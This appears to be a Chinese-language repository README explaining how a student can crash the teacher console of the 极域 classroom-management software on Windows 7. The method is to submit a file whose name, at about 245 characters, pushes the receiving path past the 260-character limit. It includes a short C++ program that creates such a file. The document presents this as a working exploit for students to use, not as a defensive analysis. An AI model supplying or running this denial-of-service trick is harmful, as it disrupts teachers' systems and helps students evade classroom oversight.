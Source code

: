 # 本思路适用windows7 系统因为好像windows10以后没有文件名限制了

----------


- 先说思路：因为windows 7的默认最长文件名长度为260，而这个长度，是带目录的长度，比如你放在C:\1111.txt的文件名长度应该是11，而你放在(桌面)C:\Users\Administrator\Desktop\1111.txt的文件名长度肯定是大于11的，而我们正好可以利用这个漏洞


> 如何利用这个漏洞？


老师端极域的文件默认接受路径肯定不是根目录(除非老师颠了，给了极域管理员并且手动调成了一个盘根目录)，但是我们本地文件创建可以在根目录,所以我们可以在C盘根目录运行使用底下的程序来创建一个文件名长度为245左右的文件，并且提交到老师那里

老师端的极域就会因为处理不了这么长的文件名而爆炸了
 



我应该是第一个知道这个思路的

2025年9月27日14:54:36 -zcygod


----------



```cpp
#include<bits/stdc++.h>
#include<windows.h>
using namespace std;
const int MAX_LENGTH=245;
int main(){
	string s="";
	srand(time(0));
	for(int i=1;i<=MAX_LENGTH;i++){
		s+=(rand()%10)+'0';
	}
	s+=".txt";
	string command="echo >"+s;
	system(command.c_str());
	return 0;
}
```
